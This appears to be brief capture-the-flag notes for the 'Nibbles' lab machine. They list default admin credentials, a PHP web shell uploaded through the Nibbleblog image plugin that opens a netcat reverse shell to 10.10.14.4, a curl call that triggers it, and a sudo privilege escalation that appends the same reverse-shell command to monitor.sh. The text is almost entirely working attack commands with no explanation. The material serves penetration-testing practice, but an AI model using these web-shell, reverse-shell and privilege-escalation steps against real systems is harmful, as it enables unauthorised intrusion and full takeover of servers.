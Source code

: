 admin:nibbles

/nibbleblog/admin.php       plugins  my image 

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 5678 >/tmp/f"); ?>

curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
python3 -c 'import pty; pty.spawn("/bin/bash")'

sudo -l 

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 3742 >/tmp/f' | tee -a monitor.sh

sudo /home/nibbler/personal/stuff/monitor.sh
